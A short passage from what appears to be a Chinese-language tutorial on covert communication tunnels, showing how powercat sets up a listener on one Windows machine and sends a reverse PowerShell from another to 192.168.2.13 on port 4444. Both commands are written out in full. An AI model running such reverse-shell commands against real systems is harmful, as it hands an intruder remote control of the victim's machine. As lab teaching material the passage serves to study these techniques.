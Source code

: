 （4）通过Powercat返回Powershell

在Win7上 运行powercat，监听4444端口（先监听后反弹，属于反向shell）

```
powercat -l -p 4444 -v
```

![](/assets/img/隐藏通信隧道基础知识/51.png)

在Win10上运行powercat，反弹一个powershell：（-ep用于返回powershell）

```
powercat -c 192.168.2.13 -p 4444 -v -ep
```
